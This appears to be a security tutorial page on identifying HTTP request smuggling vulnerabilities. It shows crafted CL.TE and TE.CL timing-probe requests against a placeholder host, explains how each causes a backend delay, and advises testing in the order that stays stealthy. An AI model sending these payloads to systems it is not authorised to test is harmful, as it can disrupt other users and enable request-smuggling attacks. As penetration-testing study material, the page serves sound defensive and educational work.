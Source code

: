 ## Identification

{{< hint style=warning >}}
**Important**:

* `Connection` header mustn't be set to `close`. Set it to `keep-alive`.
* In early techniques you must use `HTTP/1.1` protocol, not `HTTP/2`. In burp change it using Inspector.
{{< /hint >}}

### CL.TE

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
1\r\n
A\r\n
X
```

`Content-Length=4` -> `1` `\r` `\n` `A`

* The **front-end** server processes the initial chunk based on the Transfer-Encoding header, forwarding only part of the request while omitting the `X`.&#x20;
* After processing the first chunk, the **backend** server waits for the next one, causing a noticeable time delay.

### TE.CL

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
X
```

`Content-Length=6` -> `0` `\r` `\n` `\r` `\n` `X`

The back-end server, relying on the Content-Length header, waits for additional message body content, resulting in a noticeable time delay.

{{< hint style=warning >}}
**Warning**: The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.
{{< /hint >}}
